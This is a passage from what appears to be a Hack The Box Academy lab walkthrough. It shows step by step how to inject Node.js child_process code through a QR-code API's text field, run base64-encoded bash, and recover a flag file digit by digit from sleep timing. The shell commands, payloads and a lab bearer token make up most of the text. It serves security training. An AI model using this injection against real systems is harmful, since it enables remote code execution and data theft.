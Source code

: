 Code: shell

```shell
time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer <token>" -d "{ \"text\": \"'}) + require('child_process').execSync('echo <base64 encoded payload> | base64 -d | bash')//\" }" http://STMIP:STMPO/api/service/generate
```

Students will find the server sleeps when testing the number `2` against the first position of the flag:

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA" -d "{ \"text\": \"'}) + require('child_process').execSync('echo Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMSB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMCBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n | base64 -d | bash')//\" }" http://94.237.54.59:50504/api/service/generate

{"message":"Could not generate QR code."}
real	0m0.170s
user	0m0.005s
sys	0m0.001s

┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA" -d "{ \"text\": \"'}) + require('child_process').execSync('echo Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMSB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMSBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n | base64 -d | bash')//\" }" http://94.237.54.59:50504/api/service/generate

{"message":"Could not generate QR code."}
real	0m0.169s
user	0m0.006s
sys	0m0.000s

┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA" -d "{ \"text\": \"'}) + require('child_process').execSync('echo Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMSB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMiBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n | base64 -d | bash')//\" }" http://94.237.54.59:50504/api/service/generate

{"message":"Could not generate QR code."}
real	0m2.173s
user	0m0.000s
sys	0m0.006s
```

Students need to repeat these steps, this time generating payloads to test for the number present in the second position of the flag. This will be accomplished by changing the number after `head -c` from 1 to 2:
